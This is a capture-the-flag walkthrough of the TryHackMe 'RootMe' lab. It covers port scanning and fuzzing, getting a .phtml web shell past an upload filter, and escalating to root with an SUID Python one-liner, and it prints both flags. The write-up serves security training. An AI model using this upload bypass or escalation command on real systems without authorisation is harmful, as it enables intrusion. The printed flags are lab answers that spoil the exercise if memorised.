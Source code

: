 # Rootme (THM)

- https://tryhackme.com/room/rrootme
- March 2, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
   - cookie - PHPSESSID
   - server - Apache/2.4.29
   - title - HackIT - Home

- fuzzing http

```sh
$ ffuf -u http://$IP/FUZZ -e php -w /usr/share/wordlists/common.txt
```

- found `panel`, `css`, `js`, `uploads`
- try to upload shell.php and no php allowed

![](images/2023-03-02-18-58-15.png)

- change with other extensions
- `.phtml` success
- listen at your attack machine with nc and access to `/uploads/shell.phtml` and get `www-data` user access

- `sudo -l` - no access
- transfer linpeas.sh to /tmp folder in www-data shell and run linpeas.sh
- Interesting findings

```
1. Vulnerable to CVE-2021-4034
2. suid
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
3. sgid
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
```

- find python in gtfobins for suid

```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

- get root access

```sh
$ whoami
root
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
$ cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

---
